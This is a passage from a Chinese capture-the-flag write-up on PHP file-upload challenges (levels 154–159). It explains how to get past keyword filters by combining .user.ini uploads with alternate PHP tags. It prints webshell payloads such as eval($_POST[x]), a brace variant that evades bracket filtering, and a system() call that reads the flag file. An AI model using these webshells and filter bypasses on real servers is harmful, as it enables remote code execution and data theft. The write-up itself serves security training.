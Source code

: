 <% echo '123';%>    //前提是开启配置参数asp_tags=on  
  
<script language=”php”>echo '1'; </script>//不需要修改参数开关  
  
```
1构造payload：<?=eval($_POST[x]);?>    

```  
  
  
再次上传后门文件，读取flag即可  
  
  
**155关：关键字过滤**  
  
  
和上一关一模一样，不再赘述。  
  
  
**156关：过滤关键字**  
  
  
和第153关手法一样，结合上传 .user.ini 但是过滤的内容变了  
  
经过尝试过滤的内容发现是 [] 绕过的手法可以参考第154关列举出来的方法  
  
解决思路： [] == {}  
  
```
1构造payload：<?=eval($_POST{x});?>

```  
  
  
链接后门读取flag即可  
  
  
**157关：过滤关键字**  
  
  
和第153关手法一样，结合上传 .user.ini 但是过滤的内容变了  
  
经过尝试发现过滤的 ; 与 [] ，分号一旦被过滤就意味着154关的四种过滤手法失效  
  
解决思路：直接调用系统的命令  
  
```
1构造payload：<?=system('tac ../flag.*')?>

```  
  
  
直接访问upload命令就能看到结果  
  
  
**158关：过滤关键字**  
  
  
和157关一摸一样  
  
  
**159关：过滤关键字**  
  
  
和第153关手法一样，结合上传 .user.ini 但是过滤的内容变了  
  
在上一关过滤的基础上，加入了对()的过滤，同时还过来了 flag.php  
  